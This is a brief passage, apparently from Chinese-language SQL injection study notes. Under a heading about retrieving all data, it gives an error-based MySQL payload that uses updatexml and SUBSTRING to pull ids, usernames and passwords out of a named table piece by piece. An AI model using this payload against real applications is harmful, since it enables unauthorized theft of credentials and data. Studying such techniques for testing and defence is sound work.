 ![image-20250222164418393](static/image/image-20250222164418393.png)

#### 获取所有数据内容

```mysql
# 获取所有数据内容，因为有长度限制。所以通过substing截取 1,30 代表着截取1至30的字符内容
updatexml(1,concat(0x7e,(SELECT(SUBSTRING(group_concat(id,'-',username,'-',password),字符串头,字符串尾))FROM(数据库名.表名)),0x7e),1)
```
